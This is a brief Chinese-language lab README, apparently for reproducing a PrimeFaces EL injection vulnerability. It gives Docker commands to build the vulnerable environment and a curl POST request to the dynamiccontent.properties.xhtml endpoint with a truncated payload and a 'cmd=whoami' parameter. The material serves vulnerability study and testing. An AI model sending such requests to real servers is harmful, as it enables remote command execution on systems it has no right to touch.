


环境搭建
```
docker build -t primefaces-el-injection .
docker run -d -p 9090:8080 primefaces-el-injection
```




漏洞复现
```
curl -X POST "http://127.0.0.1:9090/primefaces/javax.faces.resource/dynamiccontent.properties.xhtml" -d "pfdrt=sc&ln=primefaces&pfdrid=uMKljP...&cmd=whoami"
```


